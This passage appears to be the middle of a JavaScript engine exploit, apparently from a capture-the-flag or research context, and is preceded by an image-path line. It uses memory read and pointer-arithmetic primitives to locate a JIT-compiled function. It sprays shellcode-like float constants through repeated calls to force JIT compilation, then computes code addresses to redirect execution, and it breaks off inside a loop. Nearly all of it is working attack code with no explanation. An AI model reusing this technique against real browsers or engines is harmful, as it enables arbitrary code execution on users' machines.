 ```javascript
print1(grp_ptr)
grp_ptr.reverse()


buf[7].func = function func() {
  const magic = 4.183559446463817e-216;

  const g1 = 1.4501798452584495e-277
  const g2 = 1.4499730218924257e-277
  const g3 = 1.4632559875735264e-277
  const g4 = 1.4364759325952765e-277
  const g5 = 1.450128571490163e-277
  const g6 = 1.4501798485024445e-277
  const g7 = 1.4345589835166586e-277
  const g8 = 1.616527814e-314
}


for (i=0;i<100000;i++) buf[7].func()



slots_ptr = read(slots)
slots_ptr.reverse()
print1(slots_ptr)
slots_ptr.reverse()

func_ptr = read(slots_ptr)
func_ptr[6]=0
func_ptr[7]=0
func_ptr.reverse()
print1(func_ptr)
func_ptr.reverse()

func_ptr.reverse()

add(func_ptr,new data("0x30"))
func_ptr.reverse()

func_ptr.reverse()
print1(func_ptr)
func_ptr.reverse()

jit_ptr=read(func_ptr);
jit_ptr.reverse()
print1(jit_ptr)
jit_ptr.reverse()

jitaddr = read(jit_ptr);


jitaddr[0]=0
jitaddr[1]=jitaddr[1] & 0xf0

jitaddr.reverse()
print1(jitaddr)
jitaddr.reverse()

jitaddr.reverse()
sub(jitaddr,new data("0xff0"))
jitaddr.reverse()

for(j=0;j<3;j++){
```